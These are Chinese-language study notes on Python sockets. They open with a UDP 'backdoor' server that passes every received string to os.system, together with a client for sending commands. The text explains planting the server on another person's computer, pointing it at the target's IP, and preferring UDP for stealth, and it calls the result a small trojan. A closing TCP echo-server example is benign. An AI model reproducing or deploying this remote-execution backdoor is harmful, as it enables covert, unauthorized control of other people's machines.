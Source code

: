 ## remote控制

TCP远程控制很容易被抓到(因为ip反复回应)；UDP安全些；

开发老板监视员工用到的是TCP,开发小木马用到的是UDP

线程冲突还可以用于创建随机数；

### udp远程控制

将udp server程序植入别人的电脑，自己在udp client端执行代码，就可以远程控制别人的电脑(两个py文件中的ip都改成目标机器的ip)

```python
# udp server-后门
import socket
import os

udp_server = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
udp_server.bind(('127.0.0.1', 8848))  # 绑定ip和端口，接受消息
while True:
    dataStr, addr = udp_server.recvfrom(1024)
    print(f"messge from {addr},content='{dataStr.decode('utf-8')}'")
    # 执行代码
    os.system(dataStr.decode('utf-8'))
```

```python
# udp client
import socket

udp_client = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
while True:
    dataStr = input("Enter a string:")
    udp_client.sendto(dataStr.encode('utf-8'), ('127.0.0.1', 8848))  # 任意定义一个端口

udp_client.close()
```

配合语音识别，可以远程操作电脑；

## tcp client & tcp server

对话系统: client发一句，server回复一句，然后server结束，后面对话无效`An established connection was aborted by the software in your host machine`

```python
# tcp server
import socket
import time

tcp_server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
tcp_server.bind(('192.168.128.1', 9988))
tcp_server.listen(5)  # 最多5个客户端

# Wait for an incoming connection.
# Return a new socket representing the connection, and the address of the client.
client_sock, client_addr = tcp_server.accept() #会在这里卡住
receviedData = client_sock.recv(1024)
print("Addr=", client_addr, "content=", receviedData.decode('utf-8'))
data2Send = f"{receviedData.decode('utf-8')} at({time.asctime()})".encode('utf-8')
# tcp必须要确定链接的是谁
client_sock.send(data2Send)

tcp_server.close()
```

